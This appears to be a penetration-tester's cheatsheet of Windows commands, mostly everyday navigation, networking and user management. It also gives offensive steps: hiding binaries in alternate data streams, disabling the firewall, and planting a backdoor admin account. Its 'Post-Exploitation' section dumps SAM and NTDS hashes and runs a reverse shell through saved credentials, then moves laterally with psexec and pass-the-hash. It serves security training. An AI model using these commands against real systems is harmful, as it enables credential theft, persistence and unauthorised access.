 # Windows Commands Cheatsheet

This is a cheatsheet for common Windows commands. 

[Windows Local Enum is over here.](../windows_local_enumeration.md)

These are all for cmd.exe unless stated otherwise. There should be a separate powershell cheatsheet somewhere.

## Essential Navigation
```powershell
# change directory
cd whatever
cd ..
cd "C:\path with spaces\something\"

# print current directory path
echo %cd%

# print file content
type filename.txt
more filename.txt

# directory content
dir
dir /A /R /Q

## show all files (including hidden and system files)
dir /A

## show NTFS streams
dir /R

## metadata (including ownership)
dir /Q

## print recursive directory tree
tree /a /f

## tree-like recursive listing
dir /S

# make directory
mkdir whatever

# remove dir
rm directory

# remove file
del somefile
```

## Copying

```powershell
# copy files
copy C:\somefile C:\somefile_copy

# move file
mv C:\somefileold C:\somefilenew
```

```powershell
# SMB network file transfer
## SMB copy from remote to local machine
copy \\<remote_ip>\<remote_smb_share>\somefile.txt C:\local_somefile.txt
copy \\192.168.0.22\MYSHARE\somefile.txt C:\local_somefile.txt

# SMB copy from local to remote machine
copy C:\local_somefile.txt \\<remote_ip>\<remote_smb_share>\somefile.txt
copy C:\local_somefile.txt \\192.168.0.22\MYSHARE\somefile.txt

### execute binary/script from remote SMB share
\\<remote_ip>\<remote_smb_share>\somefile.bat
\\<remote_ip>\<remote_smb_share>\somefile.exe
```

## Permissions

```powershell
# show permissions for directory
icacls C:\

# change permissions for file/directory
CACLS root.txt /e /p Alfred:f

    R – Read
    W – Write
    C – Change (write)
    F – Full control
```

## Enumeration

```powershell
# whoami
whoami
whoami /priv
whoami /groups
whoami /all

# show system info (CPU architecture etc.)
systeminfo
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE% 
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```powershell
# Manual search passwords in files:
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *.config
```

```powershell
# NTFS Alternative Data Streams
dir /R
more < somefile.txt:hiddenproof.txt
type somebinary.exe > somefile.txt:hiddenbinary.exe
```

### Network

```powershell
# hostname
hostname

# network config
ipconfig
ipconfig /all

# available routes
route print

# known adjacent hosts (arp table)
arp -a
```

Show network shares:
```powershell
net share
```

Application ports:
```powershell
# print open ports
netstat -ano

# find a port
netstat -an | find "<port>"

# find application by pid
tasklist /fi "pid eq 2216"

# show applications associated with port (requires higher privileges)
netstat -ab | more
```

Firewall:
```powershell
# show firewall config
netsh firewall show state
netsh firewall show config

# show firewall config (alt)
netsh advfirewall firewall dump

# disable firewall completely (I hope you know what you are doing!)
netsh firewall set opmode disable
NetSh Advfirewall set allprofiles state off
```

Printers:
```powershell
wmic printer list brief

ps> Get-Printer | Format-List
```


### User Management

```powershell
# list users
net user

# create a user
net user <username> <password> /add

# list local groups
net localgroup

# list local administrators
net localgroup administrators

# create a local group
net localgroup <groupname> /add

# add user to a local group
net localgroup <groupname> <username> /add
net localgroup Administrators pentest /add
net localgroup "Remote Desktop Users" pentest /add

# create new admin account summarized
net user cereal hunter7 /add
net localgroup Administrators cereal /add
```

## Post-Exploitation
```powershell
# Dump Secure Account Manager (SAM) database (admin required obviously)
reg save hklm\sam %TEMP%\sam
reg save hklm\system %TEMP%\system

# optional (AD)
reg save hklm\security %TEMP%\security

# transfer the files to a machine with impacket installed
# dump user hashes
secretsdump.py -system system -sam sam LOCAL
secretsdump.py -system system -sam sam -security security LOCAL


# Alternative path: copy C:\Windows\NTDS\ntds.dit and system
secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

```powershell
# show saved creds
cmdkey /list

# runas using saved credentials
runas /savecred /user:admin C:\PrivEsc\reverse.exe

# psexec (sysinternals)
psexec \\<target> -d -u <user> -p <password> <command>

# winexe (from kali)
winexe -U 'admin%password123' //<target_ip> cmd.exe

# pass the hash (from kali)
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash>' //<target_ip> cmd.exe
```

